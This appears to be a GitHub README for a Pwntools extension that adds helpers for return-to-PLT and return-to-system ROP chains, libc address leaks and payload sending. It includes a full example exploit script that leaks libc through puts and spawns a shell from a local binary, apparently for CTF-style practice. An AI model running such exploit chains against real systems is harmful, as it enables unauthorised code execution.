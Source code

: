 # Fast-Pwn
Some code I have added to my local Pwntools to speed up things.

Functions Added - 

- ret2system() - creates a return to system rop chain, accepts two arguments align and bin_sh
- ret2plt() - creates a return to plt rop chain, accepts two arguments leak and ret
- recv_libc_leak() - receive 6 bytes on amd64 and 4 bytes on i386, then unpack tye address and substract the offset and return libc base address, accepts one argument offset
- sendpayload() - accepts 2 arguments offset and payload and send flat{offset:payload}
- find_bin_sh() - return /bin/sh address 
- section_addr() - return the address of section like(.bss,.data), accepts 2 arguments name and offset

Quick Fixes -

- libc() - I like to use elf.libc but it is broken so i fixed it but still works only on 64 bit, requirement - `pip3 install pylddwrap`

Example - 

```python
from pwn import *

elf = context.binary = ELF("vuln")
rop = ROP(elf)
libc = elf.libc
offset = 136

io = process()
io.clean()

rop.ret2plt(leak=elf.got.puts, ret=elf.sym.main)
io.sendpayload(offset=offset, payload=rop.chain())

io.recvline()
libc.address = io.recv_libc_leak(offset=libc.sym.puts)

rop1 = ROP(libc)
rop1.ret2system(aling=True)
io.sendpayload(offset=offset, payload=rop1.chain())
io.interactive()
```

# Changes Made
### Added Code to -

[pwnlib/rop/rop.py](pwnlib/rop/rop.py) - Added 2 functions [ret2plt and ret2system](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/rop/rop.py#L1551-L1561) \
[pwnlib/elf/elf.py](pwnlib/elf/elf.py) - Added 2 functions [section_addr and find_bin_sh](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/elf/elf.py#L1547-L1570), Edited [libc function](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/elf/elf.py#L716-L723) \
[pwnlib/tubes/tube.py](pwnlib/tubes/tube.py) - Added 2 functions [sendpayload](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/tubes/tube.py#L863-L872) and [recv_libc_leak](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/tubes/tube.py#L753-L763)

### Created New File

[pwnlib/rop/ret2system.py](pwnlib/rop/ret2system.py) \
[pwnlib/rop/ret2plt.py](pwnlib/rop/ret2plt.py)

